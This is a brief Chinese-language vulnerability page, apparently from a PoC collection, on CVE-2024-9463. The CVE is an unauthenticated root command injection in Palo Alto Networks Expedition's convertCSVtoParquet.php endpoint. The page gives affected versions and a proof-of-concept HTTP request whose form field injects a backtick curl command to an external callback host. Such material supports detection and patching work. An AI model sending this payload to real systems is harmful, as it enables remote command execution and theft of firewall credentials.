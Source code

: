 # CVE-2024-9463
>   Palo Alto Networks Expedition是Palo Alto Networks提供的一款迁移工具，旨在帮助网络安全团队进行防火墙规则的迁移、优化和管理。

## 来源

[https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-9463.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-9463.yaml)

## 简介

Palo Alto Networks Expedition的/API/convertCSVtoParquet.php接口存在命令注入漏洞，未经身份验证的攻击者可利用该漏洞在Expedition中以root身份运行任意系统命令，从而导致PAN-OS防火墙的用户名、明文密码、设备配置和设备API密钥泄露。

## 影响范围

-   Palo Alto Networks Expedition < 1.2.96

## 漏洞类型

命令注入

## POC

```http
POST /API/convertCSVtoParquet.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

ram=watchTowr`curl+{{interactsh-url}}`
```

